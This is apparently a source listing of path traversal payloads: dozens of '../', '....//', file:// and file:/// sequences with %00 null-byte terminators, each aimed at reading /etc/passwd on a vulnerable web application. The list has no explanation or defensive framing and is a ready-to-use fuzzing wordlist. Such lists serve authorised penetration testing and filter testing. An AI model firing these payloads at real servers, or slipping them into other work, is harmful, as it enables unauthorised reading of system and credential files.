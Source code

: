 ```bash
file://../../etc/passwd%00
file://../../../etc/passwd%00
file://../../../../etc/passwd%00
file://../../../../../etc/passwd%00
file://../../../../../../etc/passwd%00
file://../../../../../../../etc/passwd%00
file://../../../../../../../../etc/passwd%00
file://../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../../../../../etc/passwd%00
file://../../../../../../../../../../../../../../../etc/passwd%00
/../etc/passwd%00
/../../etc/passwd%00
/../../../etc/passwd%00
/../../../../etc/passwd%00
/../../../../../etc/passwd%00
/../../../../../../etc/passwd%00
/../../../../../../../etc/passwd%00
/../../../../../../../../etc/passwd%00
/../../../../../../../../../etc/passwd%00
/../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../../../../../../etc/passwd%00
file:///../etc/passwd%00
file:///../../etc/passwd%00
file:///../../../etc/passwd%00
file:///../../../../etc/passwd%00
file:///../../../../../etc/passwd%00
file:///../../../../../../etc/passwd%00
file:///../../../../../../../etc/passwd%00
file:///../../../../../../../../etc/passwd%00
file:///../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../../../../../etc/passwd%00
file:///../../../../../../../../../../../../../../../etc/passwd%00
....//etc/passwd%00
....//....//etc/passwd%00
....//....//....//etc/passwd%00
....//....//....//....//etc/passwd%00
....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd%00
file://....//etc/passwd%00
file://....//....//etc/passwd%00
file://....//....//....//etc/passwd%00
file://....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//etc/passwd%00
file://....//....//....//....//....//....//....//....//etc/passwd%00
```